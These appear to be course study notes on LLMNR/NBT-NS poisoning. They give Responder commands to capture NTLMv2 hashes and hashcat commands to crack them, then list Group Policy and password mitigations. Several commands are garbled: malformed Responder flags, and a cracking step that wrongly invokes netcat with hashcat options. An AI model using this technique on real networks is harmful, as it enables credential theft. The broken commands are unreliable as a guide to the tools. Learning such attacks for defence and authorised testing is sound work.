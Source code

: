 ___
### What is LLMNR?
- Used to identify hosts when DNS fails to do so.
- Previously NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.

### Steps:

- Step1 : Run Responder
```
sudo responder -| tun0 -dwp
```

- Step 2 : An Event Occurs...
- Step 3 : Get Dem Hash
- Step 4 : Crack that Hash
```
hashcat -m 5600 hashes.txt rockyou.txt
```

### Practical:
```
sudo responder -eth0
```

![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251023222322.png)
- We can crack this captured hashes using netcat 
```
netcat -m 5600 hashes.txt rockyou.txt
```

### LLMNR Poisoning Mitigation:
The best defense in this case is to disable LLMNR and NBT-NS.
- To disable LLMNR, select "Turn OFF Multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor.
- To disable NBT-NS, navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab and select "Disable NetBIOS over TCP/IP".

If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:
- Require Network Access Control.
- Require strong user passwords(e.g., >14 characters in length and limit common word usage). The more complex and long the password, the harder it is for an attacker to crack the hash.